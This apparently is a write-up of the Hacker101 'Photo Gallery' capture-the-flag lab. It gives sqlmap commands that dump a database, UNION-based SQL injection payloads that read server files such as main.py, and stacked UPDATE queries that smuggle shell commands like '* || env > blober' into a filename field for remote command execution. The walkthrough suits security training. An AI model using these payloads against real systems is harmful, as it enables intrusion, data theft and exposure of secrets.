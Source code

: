 <h2>Target: Photo Gallery</h2>

<b>Flag 1:</b><br>
Visiting the site shows: 
 
![image](https://user-images.githubusercontent.com/93153300/206507963-0c52d371-dc2f-490d-829e-da6ccd62991c.png)

Checking the source code shows:
 
![image](https://user-images.githubusercontent.com/93153300/206508040-2009af93-bdf6-4336-b0da-cdb0f84aaca3.png)
 
Visit the ‘fetch?id=3’ directory mentioned in the source code.  The page shows an internal server error: 
 
![image](https://user-images.githubusercontent.com/93153300/206508086-299bdae0-4392-4429-93ef-0220bf88d061.png)
 
Test this for sql injection using sqlmap: sqlmap -u "https://1592996c6185f1bb369a07276ec9e331.ctf.hacker101.com/fetch?id=2" --batch -p id

Sqlmap found that it’s vulnerable to boolean-based blind and time-based blind sql injection.  Test this further with sqlmap to find the 1st flag: sqlmap -u "https://1592996c6185f1bb369a07276ec9e331.ctf.hacker101.com/fetch?id=2" --batch -p id -D level5 –tables -T photos --dump
__________________________________________________________________________
<b>Flag 2:</b><br>
Check if we can use the sql injection to read files.  Sqlmap showed there is a file called ‘files/adorable.jpg’.  As a proof of concept let’s try to read this file.  Use the sql injection payload of: https://3a3f7491bd9535647716ab87d25fc400.ctf.hacker101.com/fetch?id=0 union select 'files/adorable.jpg'--
 
![image](https://user-images.githubusercontent.com/93153300/206511702-e2f64f82-8414-4bfb-9649-e9b87ebf634a.png)

The output shows we can read files with the sqli.  HackerOne gives a hint as to which file we should try to read.  The hint says: ‘This application runs on the uwsgi-nginx-flask-docker image.’  Google search for ‘uwsgi nginx’.  We find a github page: https://github.com/tiangolo/uwsgi-nginx-flask-docker. <br>
On the github page we find that uwsgi contains a default file named uwsgi.ini: 
 
![image](https://user-images.githubusercontent.com/93153300/206508151-68a88437-3d59-4906-8928-ad77373cfcfe.png)

The github page shows the contents of the file uwsgi.ini.  Check if we can read this file using the sql injection.  Using burp suite, capture the request for https://3a3f7491bd9535647716ab87d25fc400.ctf.hacker101.com/fetch?id=1. <br>
Change the id=1 to id=0 union select ‘uwsgi.ini’--.  Make sure to url encode the payload:
 
![image](https://user-images.githubusercontent.com/93153300/206518858-a4e01966-d21f-47e6-a3d8-d44720beb8b1.png)

It worked, we find the file and contents to the file shown on the github page.  Using the sql injection, read the main.py file.  Change the id=1 to id=0 union select ‘main.py’--.  Make sure to url encode the payload:
 
![image](https://user-images.githubusercontent.com/93153300/206519396-69f155c9-77b2-4bbc-9df3-4adc8f712252.png)
 
Burp suite’s response contains the 2nd flag.
____________________________________________________________________________
<b>Flag 3:</b><br>
Going back to our sqlmap dump: sqlmap -u "https://8e62cd1d8cac0e9921e839ec01c74382.ctf.hacker101.com/fetch?id=2" --batch -p id --dbs -D level5 --tables -T photos –dump
 
![image](https://user-images.githubusercontent.com/93153300/206508342-3770e8a5-6345-43ee-a8cc-8df222c9b6fb.png)
 
Use burp suite to capture the requet of https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com/fetch?id=2 <br>
Send the captured request in burp suite to ‘Repeater’.  Try to modify the image title name using the sqli payload of: id=2;UPDATE photos SET title='blober' WHERE id=3;COMMIT;-- <br>
Make sure to url encode the payload.  
 
![image](https://user-images.githubusercontent.com/93153300/206508383-e9db47bf-af2a-4424-9382-ef3823d6f5d8.png)

Check if the payload worked by visiting the home page:
 
![image](https://user-images.githubusercontent.com/93153300/206508438-8a705391-76a8-42f9-ad67-2e3e53232086.png)

It worked, we see that the title of the third image changed from ‘Invisible’ to the name we gave of ‘blober’.  We will use this to get remote command execution on the target.  

Step 1: Run the following sqli payload to insert the command 'ls': id=2;UPDATE photos SET filename='* || ls > blober' WHERE id=3;COMMIT;-- <br>
Step 2: Visit the main page https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com to run the 'ls' command: 
 
![image](https://user-images.githubusercontent.com/93153300/206508495-e388c22e-0e49-4470-b6b8-fe59e820d5b9.png)

We see at the bottom of the page that the ‘Space used’ changed from zero to 196k.  <br>
Step 3: View the output of the command by using the sqli payload of: https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com/fetch?id=0 union select 'blober'-- 
 
![image](https://user-images.githubusercontent.com/93153300/206508554-260cce70-c2f8-40d4-8fd7-3ef238c72a16.png)

The output on the page shows a list of the files.  So we see that the command ‘ls’ worked.  <br>
Step 4: Instead of running the command ‘ls’, run the command ‘env’.  Use the sqli payload of: id=2;UPDATE photos SET filename='* || env > blober' WHERE id=3;COMMIT;-- <br>
Visit the page https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com to run the command.  Finally, view the output of the command by using the sqli payload of: https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com/fetch?id=0 union select 'blober'--
 
![image](https://user-images.githubusercontent.com/93153300/206508603-f964ae97-4589-4fdb-b88a-cc0b18165900.png)

The output shows the flags.  


